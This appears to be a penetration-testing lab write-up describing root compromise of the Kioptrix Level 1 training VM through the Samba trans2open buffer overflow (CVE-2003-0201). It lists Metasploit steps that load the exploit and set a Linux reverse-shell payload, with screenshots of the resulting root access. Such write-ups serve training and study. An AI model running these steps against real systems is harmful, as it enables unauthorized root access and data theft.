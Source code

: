 # Kioptrix L1: Privilege Escalation using Samba Version

## Summary:
Due to the available version of Samba in Kioptrix, an attacker after enumerate this service can escalate root privileges.

## Technical Details:
The available version of Samba found is 2.2.1a is vulnerable to a buffer overflow called **trans2open** according to this **Common Vulnerabilities and Exposure 2003-0201 [(CVE-2003-0201)](https://www.cvedetails.com/cve/CVE-2003-0201/)** 
using arbitraty code -a payload for example- it is possible to obtain root privileges. 

## Steps to reproduce using metasploit and a terminal:
1) msfconsole
2) search trans2open
3) use 1
4) set RHOSTS <ip_of_kioptrixl1>
5) set payload linux/x86/shell_reverse_tcp
6) run

## Supporting Material:
1) Gaining root privileges:

![samba_trans2open_01.png](./media/samba_trans2open_01.png?raw=true "Gaining root Privilege")

2) Directory listing:

![samba_trans2open_02.png](./media/samba_trans2open_02.png?raw=true "Directory Listing")

3) Accessing to mail server:

![samba_trans2open_03.png](./media/samba_trans2open_03.png?raw=true "Accesing to mail server")

## Impact:
The exploitation of this issue compromise 100% the integrity of the Kioptrix L1 Server: sourcecode, user's credentials, directories, files and logs